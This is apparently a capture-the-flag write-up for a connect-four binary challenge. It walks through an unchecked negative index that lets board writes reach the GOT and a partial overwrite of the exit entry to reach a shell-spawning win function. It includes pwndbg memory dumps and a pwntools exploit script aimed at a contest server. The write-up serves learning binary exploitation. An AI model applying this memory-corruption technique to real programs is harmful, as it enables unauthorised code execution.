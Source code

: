 ## Finding the bug
n the source code there is a main function that operates the game and also an uncalled `win` function that will open us a shell. We also find that the `game` function that is called in main within which we find the bug: 
```c
int colint = col - '0';
if (board[7][colint] == player1symbol || board[7][colint] == player2symbol) {
	// we have to shift the entire column down
	int lastfree = 0;
	while (board[lastfree][colint] == player1symbol || board[lastfree][colint] == player2symbol) {
		lastfree--;
}
```
Here we see that there is no check to see whether `lastfree` is negative and everytime the highest position on the board is full it will "shift the entire column down"
Hence it is possible for us to make the `lastfree` negative and then overwrite the data before the `board` whenever it shifts it down

In Binary Ninja, we dump the elf file in and see what data is stored before the `board`: 
![](../Assets/Screenshot%202025-06-02%20at%201.26.42%20PM.png)
We can see that the Global Offset Table is right above the board. Overwriting a GOT entry will allow us to redirect the program to the `win` function. Here in this case, exit is the last function and the nearest function to the board so that is what we will overwrite. So whenever `exit` is called, it will actually run `win` instead. 

So the board is at offset 0x60a0 and the GOT is at 0x6060 so there is a difference in 0x40 bytes

## Checking for file protections
```
hnin@ubuntu:~$ checksec infinite_connect_four
[*] '/home/hnin/infinite_connect_four'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        PIE enabled
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
```
Notice here there is PIE enabled (so the runtime addresses are all randomised) but RELRO is only partial relro so GOT can still be overwritten. 

## Finding the offsets 
Lets verify this in runtime in gdb-pwndbg. 
Run the program, set the breakpoint at main:
```
pwndbg> got
State of the GOT of /home/hnin/infinite_connect_four:
GOT protection: Partial RELRO | Found 10 GOT entries passing the filter
[0x55555555a018] putchar@GLIBC_2.2.5 -> 0x555555555030 ◂— endbr64 
[0x55555555a020] puts@GLIBC_2.2.5 -> 0x555555555040 ◂— endbr64 
[0x55555555a028] __stack_chk_fail@GLIBC_2.4 -> 0x555555555050 ◂— endbr64 
[0x55555555a030] setbuf@GLIBC_2.2.5 -> 0x555555555060 ◂— endbr64 
[0x55555555a038] system@GLIBC_2.2.5 -> 0x555555555070 ◂— endbr64 
[0x55555555a040] printf@GLIBC_2.2.5 -> 0x555555555080 ◂— endbr64 
[0x55555555a048] fgets@GLIBC_2.2.5 -> 0x555555555090 ◂— endbr64 
[0x55555555a050] getchar@GLIBC_2.2.5 -> 0x5555555550a0 ◂— endbr64 
[0x55555555a058] setvbuf@GLIBC_2.2.5 -> 0x5555555550b0 ◂— endbr64 
[0x55555555a060] exit@GLIBC_2.2.5 -> 0x5555555550c0 ◂— endbr64 


pwndbg> x/32x 0x55555555a060
0x55555555a060 <exit@got.plt>:	0x555550c0	0x00005555	0x00000000	0x00000000
0x55555555a070:	0x00000000	0x00000000	0x00000000	0x00000000
0x55555555a080:	0x00000000	0x00000000	0x5555a088	0x00005555
0x55555555a090:	0x00000000	0x00000000	0x00000000	0x00000000
0x55555555a0a0 <board>:	0x20202020	0x20202020	0x20202020	0x20202020
0x55555555a0b0 <board+16>:	0x20202020	0x20202020	0x20202020	0x20202020
0x55555555a0c0 <board+32>:	0x20202020	0x20202020	0x20202020	0x20202020
0x55555555a0d0 <board+48>:	0x20202020	0x20202020	0x20202020	0x20202020
```

We know that the board is `8*8` given the source code 
```c
char board[8][8] = {
'\x20', '\x20', '\x20', '\x20', '\x20', '\x20', '\x20', '\x20',
'\x20', '\x20', '\x20', '\x20', '\x20', '\x20', '\x20', '\x20',
'\x20', '\x20', '\x20', '\x20', '\x20', '\x20', '\x20', '\x20',
'\x20', '\x20', '\x20', '\x20', '\x20', '\x20', '\x20', '\x20',
'\x20', '\x20', '\x20', '\x20', '\x20', '\x20', '\x20', '\x20',
'\x20', '\x20', '\x20', '\x20', '\x20', '\x20', '\x20', '\x20',
'\x20', '\x20', '\x20', '\x20', '\x20', '\x20', '\x20', '\x20',
'\x20', '\x20', '\x20', '\x20', '\x20', '\x20', '\x20', '\x20'
};
```
But in each row of memory address here is it 16 bytes so each row in the memory here contains 2 rows of the game board. 
```
0x55555555a0a0 <board>:	0x20202020	0x20202020	0x20202020	0x20202020
0x55555555a0b0 <board+16>:	0x20202020	0x20202020	0x20202020	0x20202020
0x55555555a0c0 <board+32>:	0x20202020	0x20202020	0x20202020	0x20202020
0x55555555a0d0 <board+48>:	0x20202020	0x20202020	0x20202020	0x20202020
```
So from above, we prob need to overwrite 7 rows until we reach the entry for the exit

## Testing the hypothesis
Run the program again in pwndbg. 
Setting player 1 symbol as `A` and player 2 as `B` for simple identification. Keep pressing `0` for the column for both Player 1 and 2 for a total of 16 times (8 times for each player)

Now if we observe the memory region again
```
pwndbg> x/32x 0x55555555a060
0x55555555a060 <exit@got.plt>:	0x55555041	0x00005555	0x00000042	0x00000000
0x55555555a070:	0x00000041	0x00000000	0x00000042	0x00000000
0x55555555a080:	0x00000041	0x00000000	0x5555a042	0x00005555
0x55555555a090:	0x00000041	0x00000000	0x00000042	0x00000000
0x55555555a0a0 <board>:	0x20202041	0x20202020	0x20202042	0x20202020
0x55555555a0b0 <board+16>:	0x20202041	0x20202020	0x20202042	0x20202020
0x55555555a0c0 <board+32>:	0x20202041	0x20202020	0x20202042	0x20202020
0x55555555a0d0 <board+48>:	0x20202041	0x20202020	0x20202042	0x20202020
```
We know that the last byte of the GOT entry for exit is overwritten by 0x41 which is `A`

So how do we overwrite it properly for the program to redirect to win. Overwrite the first column results in overwriting the last 2 hex digit in the GOT entry. So we need to overwrite both the first and second column to overwrite the last 4 hex digit in the GOT entry. There is a 1/16 chance that this will happen.

Then by instead of `A` and `B` for the player symbol we set them as `\x1f` and `\c9`

## Wait, what about PIE & ASLR? 
Apparently we can just bruteforce this a few times as the first few hex digits will most likely be the same so we just need to bruteforce it until the fourth last nibble matches and then we'll be able to redirect to win. 

## python pwn script
We just keep running this script until there isn't an SIGSEGV error
``` python
from pwn import * 

#p = process("./infinite_connect_four")
p = remote('challs.nusgreyhats.org', 33102) 

def send(payload):
	p.sendlineafter(b'> ', payload)
	
# first send the symbols of the players
send(b'\xc9') 
send(b'\xbf') 

#setting this will make sure the last byte is overwritten with \xc9 and the seonc last byte is overwrrite with \xbf
send(b'0') 
send(b'1') 

for i in range(15): 
	send(b'0') 
for i in range(15): 
	send(b'1') 

#this will call the exit function but then it will actually execute win
send(b'A') 
p.interactive()
```